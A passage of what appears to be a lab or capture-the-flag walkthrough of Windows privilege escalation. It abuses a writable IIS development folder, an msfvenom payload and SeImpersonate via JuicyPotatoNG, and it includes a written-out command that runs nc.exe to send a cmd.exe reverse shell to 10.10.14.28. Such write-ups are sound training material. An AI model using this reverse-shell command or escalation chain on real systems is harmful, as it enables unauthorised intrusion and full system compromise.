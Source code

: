 `C:\inetpub\Development`

![](https://miro.medium.com/v2/resize:fit:517/1*Qgvz35MvCKO22KGcdV8H1Q.png)

Running `icacls` on the development folder shows that `c.bum` has write access

![](https://miro.medium.com/v2/resize:fit:627/1*Nem0nr5eM8rfnPDXssc9Ig.png)

I tried executing nc.exe to get a reverse shell but it wasn’t working for some reason so instead I generated a msfvenom payload

![](https://miro.medium.com/v2/resize:fit:700/0*sWDANN7-ktSJUYt5)

Transfer it and execute it

![](https://miro.medium.com/v2/resize:fit:700/0*k42wnTiwx4VJ1i35)

![](https://miro.medium.com/v2/resize:fit:604/0*lLyEUUCFcaXfPYEP)

On checking privileges of `iis appol` , `SeImpersonate` was enabled

![](https://miro.medium.com/v2/resize:fit:700/0*8GxNvtD46jSmzl8S)

To abuse this, we can use `[JuicyPotato-ng](https://github.com/antonioCoco/JuicyPotatoNG)` to get a system shell

.\potatoe.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Windows\Temp\nc.exe 10.10.14.28 6666 -e cmd.exe"

![](https://miro.medium.com/v2/resize:fit:700/0*3MWO3iIITlgYl9ed)

![](https://miro.medium.com/v2/resize:fit:535/0*lELdQF1NnFfZ6dgZ)
